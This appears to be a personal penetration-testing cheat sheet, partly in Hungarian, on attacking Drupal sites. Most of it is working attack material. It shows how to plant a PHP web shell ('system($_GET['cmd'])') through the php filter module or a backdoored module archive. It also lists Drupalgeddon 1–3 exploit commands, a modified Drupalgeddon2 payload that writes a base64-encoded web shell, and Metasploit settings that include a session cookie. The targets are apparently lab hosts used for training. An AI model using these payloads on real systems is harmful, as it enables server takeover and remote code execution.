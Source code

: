 # drupal
## scanning
sudo pip3 install droopescan  
droopescan scan drupal -u http://10.10.10.1/  
## get drupal version without credentials
* CHANGELOG.txt fajl-ban ott van!!!
## local files
* /sites/default/settings.php
## exploiting
nehezebb tema mint a wordpress vagy joomla eseteben
### leveraging the php filter module
#### new versions than 8 need the installation of the module as well (before version 8 it has to be skipped)
* wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
* nem kell kicsomagolni
* login as admin
* go to Administration / Reports / Available updates (maybe under the Extend menu instead)
* 'Upload a module or theme archive to install'
* talozzuk ki a letoltott archive file-t
* install
* !!!!!! extra info !!!!!!
  * lehetseges, hogy kulon az extension-nel be kell pipalni az update managert hogy az is hozza legyen adva !!!
  * php filter-t is ki kell lehet pipalni
#### older Drupal versions contains the module by default - before 8
* login as admin
* 1
  * choose modules
  * enable 'php filter'
  * save configuration (lent)
* 2
  * go to Content / Add content
  * create basic page
  * insert web shell script like: <?php system($_GET['cmd']); ?>
  * text format -> php code
  * save
* 3
  * we will be redirected to the new page like: http://10.10.10.1/node/3
  * append web shell param, and call it
    * curl -s http://10.10.10.1/node/3?cmd=id
### uploading a backdoored module
* login as admin (or some similar high priv user) (dont know which can be fine....)
* download a standard module from official repo
* e.g.
  * wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
* tar xvf captcha-8.x-1.2.tar.gz
* create new file with web shell content like shell.php: <?php system($_GET['cmd']); ?>
* create a .htaccess file with below content
<pre>
 <IfModule mode_rewrite.c>
  RewriteEngine On
  RewriteBase /
 </IfModule>
</pre>
* mov these two files (shell.php, .htaccess) into the module folder and zip it back
  * mv shell.php .htaccess captcha
  * tar cvf captcha.tar.gz captcha/
* click 'Manage' / 'Extend' / + Install new module
* you are on the install page, like:   http://10.10.10.1/admin/modules/install
* browse local archive file, click Install
* run rce
  * curl -s http://10.10.10.1/modules/captcha/shell.php?cmd=id
### Known vulnerabilities (Drupalgeddon 1 - 3)
#### info
##### Drupalgeddon 1
CVE-2014-3704, known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.
##### Drupalgeddon 2
CVE-2018-7600, also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.
##### Drupalgeddon 3
CVE-2018-7602, also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.
#### exploitation
##### Drupalgeddon 1 (Drupal 7.0 - 7.31)
###### manual
https://www.exploit-db.com/exploits/34992  
python2.7 drupalgeddon.py -t http://10.10.10.1/ -u peter -p pass123  
###### metasploit
msf> exploit/multi/http/drupal_drupageddon/  
##### Drupalgeddon 2 (Drupal 7.58 - 8.5.1)
https://www.exploit-db.com/exploits/44448  
python3 drupalgeddon.py  
feltolt egy hello.txt fajlt egy kacsinto smileyval  
szerkesszuk at a scriptet a 'payload'-os sornal  
irjuk bele base64 encode-olva a web shell-t ami utana decode-olunk  
fontos hogy a kiterjesztes php legyen  
pl igy...  
<pre>
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo "PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K" | base64 -d | tee hello.php'}
</pre>
aztan curl
curl -s http://10.10.10.1/hello.php?cmd=id
##### Drupalgeddon 3 (multiple versions)
It requires a user to have the ability to delete a node.  
We can exploit this using Metasploit, but we must first log in and obtain a valid session cookie.  
###### metasploit
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195  
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local  
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y  
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1  
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15  
msf6 exploit(multi/http/drupal_drupageddon3) > run  
